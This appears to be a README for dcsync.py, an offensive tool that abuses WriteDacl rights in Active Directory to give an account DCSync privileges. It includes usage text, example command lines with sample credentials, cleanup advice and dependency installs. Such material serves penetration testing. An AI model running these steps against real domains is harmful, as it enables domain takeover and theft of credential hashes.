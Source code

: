 # Adding DCSync Permissions
Mostly copypasta from https://github.com/tothi/rbcd-attack
```
usage: dcsync.py [-h] -dc FQDN -t USERNAME [-hashes LMHASH:NTHASH] [-k] identity

WriteDacl Attack: To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

positional arguments:
  identity              domain\username:password, attacker account with write access to target computer properties (NetBIOS domain name must be used!)

optional arguments:
  -h, --help            show this help message and exit
  -dc FQDN              FQDN of the Domain Controller
  -t USERNAME           Target user to be escalated
  -hashes LMHASH:NTHASH
                        Hash for LDAP auth (instead of password)
  -k                    If you want to use a Kerberos ticket

Example: ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator:Password123

Example: ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator -k
```

To clean up after you are done, use ACLpwn https://github.com/fox-it/aclpwn.py. This tool is pretty old and not maintained, but you can get it to work. One thing you will need to do is replace “neo4j.v1” with just “neo4j” in database.py. To restore the ACLs to the original configuration, use the restore state file created by the DCSync tool.

Dependencies:

Impacket 

```
apt install heimdal-dev -y
apt install libkrb5-dev -y
python3 -m pip install gssapi
```
